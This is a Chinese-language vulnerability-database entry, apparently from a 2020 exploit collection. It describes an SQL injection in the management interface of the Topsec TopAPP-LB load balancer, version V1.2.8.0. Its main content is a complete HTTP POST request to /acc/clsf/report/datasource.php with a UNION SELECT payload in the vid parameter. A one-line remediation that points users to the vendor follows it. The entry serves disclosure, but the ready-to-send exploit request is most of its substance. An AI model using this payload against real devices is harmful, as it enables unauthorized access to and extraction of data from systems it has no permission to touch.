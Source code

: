 ```yaml
---
title: '
'
date: Sat, 12 Sep 2020 02:06:44 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响范围：

V1.2.8.0#xxx

#### 漏洞验证

天融信负载均衡 TopAPP-LB产品旧版本在管理面存在SQL注入漏洞，具体为在可以访问管理服务情况 下，攻击者通过构造恶意请求，利用系统检查输入条件不严格的缺陷，进一步可获取部分系统本地信息。

![img](https:////upload-images.jianshu.io/upload_images/24042893-78e93ed5b06cac9c.jpg?imageMogr2/auto-orient/strip|imageView2/2/w/560)

```HTML
POST /acc/clsf/report/datasource.php HTTP/1.1
Host: localhost
Connection: close
Accept: text/javascript, text/html, application/xml, text/xml, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9
Content-Type: application/x-www-form-urlencoded 

t=l&e=0&s=t&l=1&vid=1+union select 1,2,3,4,5,6,7,8,9,substr('a',1,1),11,12,13,14,15,16,17,18,19,20,21,22--+&gid=0&lmt=10&o=r_Speed&asc=false&p=8&lipf=&lipt=&ripf=&ript=&dscp=&proto=&lpf=&lpt=&rpf=&rpt=@。。

```

# 3、影响版本

V1.2.8.0#xxx ，该版本存在于 2014年之前销售的产品。

# 4、修复建议

如您正在使用 TopAPP-LB以上版本产品，请联系天融信当地技术团队或者官方服务热线。